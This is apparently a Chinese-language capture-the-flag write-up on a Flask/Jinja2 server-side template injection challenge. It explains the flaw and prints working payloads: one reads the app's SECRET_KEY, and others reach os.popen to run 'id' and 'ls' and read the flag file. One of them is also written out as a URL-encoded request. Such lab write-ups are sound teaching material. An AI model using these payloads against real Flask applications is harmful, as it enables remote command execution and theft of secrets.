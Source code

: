 # 题目描述
打开直接看源码
![image](https://user-images.githubusercontent.com/24989246/173508561-716d04f7-d0a2-4ce6-bb35-4dc7f317f0fc.png)
# 解题思路
这里了解了一下什么是模板注入
这里针对的是flask模板，config是flask模板中的一个全局对象。包含了所有应用程序的配置值。
注释中有提示是SECRET_KEY
这里直接在url中写上?flag={{config.SECRET_KEY}}
![image](https://user-images.githubusercontent.com/24989246/173509161-edfbc314-00d6-4ea9-8476-5e1db4a44cee.png)
# 模板注入总结
## 1、什么是SSTI？

SSTI就是服务器端模板注入(Server-Side Template Injection)，实际上也是一种注入漏洞。

可能SSTI对大家而言不是很熟悉，但是相信大家很熟悉SQL注入。实际上这两者的思路都是相同的，因此可以类比来分析。

## 2、引发SSTI的真正原因

render_template渲染函数的问题

渲染函数在渲染的时候，往往对用户输入的变量不做渲染。

也就是说例如：{{}}在Jinja2中作为变量包裹标识符，Jinja2在渲染的时候会把{{}}包裹的内容当做变量解析替换。比如{{1+1}}会被解析成2。如此一来就可以实现如同sql注入一样的注入漏洞

## 3、判断类型
![image](https://user-images.githubusercontent.com/24989246/173509402-624cc9f7-36f5-4e23-9e54-d6e8e5358196.png)

# 常见的模板注入利用方式
## 1、官方的漏洞利用方法：
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
 把上面这一串当做name参数传递即可实现命令执行：
```shell
 http://192.168.1.10:8000/?name={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22id%22).read()%27)%20}}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```

2.传入参数
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}查看文件列表
![image](https://user-images.githubusercontent.com/24989246/179968951-d2fd0317-cedf-442c-b687-2a3bb2829d90.png)

再cat 一下
![image](https://user-images.githubusercontent.com/24989246/179969046-f6556bc1-1a78-40a4-8818-aa4d63d371b2.png)

得到flag

